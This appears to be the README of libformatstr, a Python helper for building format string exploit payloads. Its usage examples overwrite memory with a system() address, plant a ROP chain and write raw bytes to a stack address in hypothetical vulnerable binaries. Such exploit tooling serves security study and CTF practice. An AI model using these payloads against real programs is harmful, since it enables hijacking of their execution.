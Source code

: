 libformatstr.py
====================

Small script to simplify format string exploitation.

Usage
---------------------

* Case 1 - replace one dword:

```python
import sys
from libformatstr import FormatStr

addr = 0x08049580
system_addr = 0x080489a3

p = FormatStr()
p[addr] = system_addr

# buf is 14th argument, 4 bytes are already printed
sys.stdout.write( p.payload(14, start_len=4) )
```

* Case 2 - put ROP code somewhere:

```python
import sys
from libformatstr import FormatStr

addr = 0x08049580
rop = [0x080487af, 0x0804873c, 0x080488de]
p = FormatStr()
p[addr] = rop

sys.stdout.write( p.payload(14) )
```

* Case 3 - guess argument number and padding:

```python
import sys
from libformatstr import FormatStr

# let's say we have do_fmt function,
# which gives us only output of format string
# (you can also just copy fmtstr and output manually)

buf_size = 250  # fix buf_size to avoid offset variation
res = do_fmt(make_pattern(buf_size))
argnum, padding = guess_argnum(res, buf_size)

# of course you can use it in payload generation

p = FormatStr(buf_size)
p[0xbffffe70] = "\x70\xfe\xff\xbf\xeb\xfe"  # yes, you can also put strings

sys.stdout.write( p.payload(argnum, padding, 3) ) # we know 3 bytes were printed already
```

About
---------------------

Author: hellman ( hellman1908@gmail.com )

License: GNU General Public License v2 (http://opensource.org/licenses/gpl-2.0.php)
